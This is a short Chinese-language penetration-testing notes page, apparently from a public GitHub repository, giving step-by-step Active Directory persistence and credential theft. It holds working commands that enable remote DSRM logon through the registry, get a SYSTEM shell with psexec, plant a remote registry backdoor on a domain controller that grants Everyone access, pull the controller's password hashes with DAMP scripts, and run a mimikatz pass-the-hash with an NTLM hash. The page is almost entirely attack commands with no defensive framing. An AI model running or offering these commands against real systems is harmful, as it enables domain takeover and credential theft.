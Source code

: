 	>reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
	允许DSRM账户远程访问
	https://github.com/HarmJ0y/DAMP
	效果：域内任何用户可读取域控hash
	system权限执行
	>psexec.exe -accepteula -s -i -d cmd.exe
	域控制器执行
	PS>Add-RemoteRegBackdoor -ComputerName 域控名 -Trustee 'S-1-1-0' –Verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/478.png)

	域内机器执行
	https://raw.githubusercontent.com/HarmJ0y/DAMP/master/RemoteHashRetrieval.ps1
	PS> Get-RemoteLocalAccountHash -ComputerName 域控 –Verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/479.png)

	域控上执行
	>reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/480.png)

	PTH攻击，mimikatz需以管理员身份启动
	>mimikatz "privilege::debug" "sekurlsa::pth /domain:dc /user:Administrator /ntlm:9f1770aebd442b6b624bdfe9cbc720dd" exit
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/481.png)